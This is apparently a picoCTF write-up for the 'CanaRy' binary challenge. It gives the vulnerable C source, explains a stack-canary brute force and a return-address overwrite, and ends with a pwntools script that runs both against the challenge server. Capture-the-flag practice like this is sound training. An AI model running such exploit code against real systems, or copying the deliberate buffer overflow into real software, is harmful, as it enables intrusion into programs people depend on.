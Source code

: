 [Back](PicoFrontPage.md)

# CanaRy
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Text editor

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUF_SIZE 32
#define FLAG_LEN 64
#define KEY_LEN 4

void display_flag() {
  char buf[FLAG_LEN];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(buf,FLAG_LEN,f);
  puts(buf);
  fflush(stdout);
}

char key[KEY_LEN];
void read_canary() {
  //FILE *f = fopen("/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/canary.txt","r")
  //
  //;
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("[ERROR]: Trying to Read Canary\n");
    exit(0);
  }
  fread(key,sizeof(char),KEY_LEN,f);
  fclose(f);
}

void vuln(){
   char canary[KEY_LEN];
   char buf[BUF_SIZE];
   char user_len[BUF_SIZE];

   int count;
   int x = 0;
   memcpy(canary,key,KEY_LEN);
   printf("Please enter the length of the entry:\n> ");

   while (x<BUF_SIZE) {
      read(0,user_len+x,1);
      if (user_len[x]=='\n') break;
      x++;
   }
   sscanf(user_len,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,key,KEY_LEN)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  read_canary();
  vuln();

  return 0;
}
```

Important points:
* Stack canaries are used to alert when the stack has been altered.
	* A certain location on the stack will be compared with a certain value to check for buffer overflows.
	* Brute-forcing canaries is actually feasible for 32-bit systems

### Analysis

As you can see, the program asks for user input twice, one to store as string size for the next input, and the second is for just input.
For the first bit of input we are able to set a size for count which will define how much text we can feed it the next input. 

We can also see that the canary is actually read off a file in the `read_canary()` function.

As mentioned earlier - since this is 32-bit we can actually brute-force it. Just create a function that iterates through all characters while adjusting the size.

The distance to `$eip` can be found through earlier tricks - `cyclic`, using a disassembler, etc. Just make sure you set the size before if you're dynamically analyzing.
Note, the canary in the file doesn't change - once you cleared the brute-forcing and run into an error after, you can just create a script that skips the actual brute-forcing and instead go straight to overriding the `$eip`.

Through `checksec` we can see that PIE has been enabled. This means it won't be as easy to get to the location of the `display_flag()` function. However this can be brute-forced as well. Just run it through with the address `0x7ed` until a hint of pico is found in the return string and you should have it. 

```c
from pwn import *

# variables

canary = ''

# variables
buf_canary = 32 # buffer to canary
canary_eip = 16 # canary to eip
#canary_eip = 54 # canary to eip
#display_flag = 0x5655636d # address of display_flag
display_flag = 0x7ed

s = ssh(host='2019shell1.picoctf.com',user='Username',password='Password')

# looping through all possible bytes for the 4 bytes (32-bit) in canary
for i in range(4):
	for j in range(256):
		# set up connection and cd into correct directory
		p = s.process('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln', cwd='/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe')

		#p.recv()
		#p.sendline(b'1234')

		# set up payload
		payload = 'A'*buf_canary
		payload += canary
		payload += chr(j)

		# respond to initial message
		p.recvuntil(b'Please enter the length of the entry:\n> ')
		p.sendline(str(32+i+1))

		# send payload with canary
		p.recvuntil(b'Input> ')
		p.sendline(payload)
		recvmsg = p.recvall()

		if b'Stack Smashing Detected' not in recvmsg:
			canary += chr(j)
			print("\nCanary Character", i + 1, "=", chr(j), "\n")
			break
    #else:
	#print("error")
	#exit()

print("Brute forcing canary successful.\nCanary value is:", canary, "\n")

flag = ""

# brute forcing display_flag() address
while "pico" not in flag:
	p = s.process('/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe/vuln', cwd='/problems/canary_6_c4c3b4565f3c8c0c855907b211b63efe')
	
	# real payload
	payload = b'A'*buf_canary
	payload += bytes(canary, 'utf-8')
	payload += b'A'*canary_eip
	payload += p32(display_flag)

	# skip through lines
	p.recvuntil(b'Please enter the length of the entry:\n> ')
	p.sendline(b'54')

	p.recvuntil(b'Input> ')
	p.sendline(payload)
	response = p.recvall()
	flag = str(response)
	p.close()

print(flag)

# do this
p.interactive()
``` 
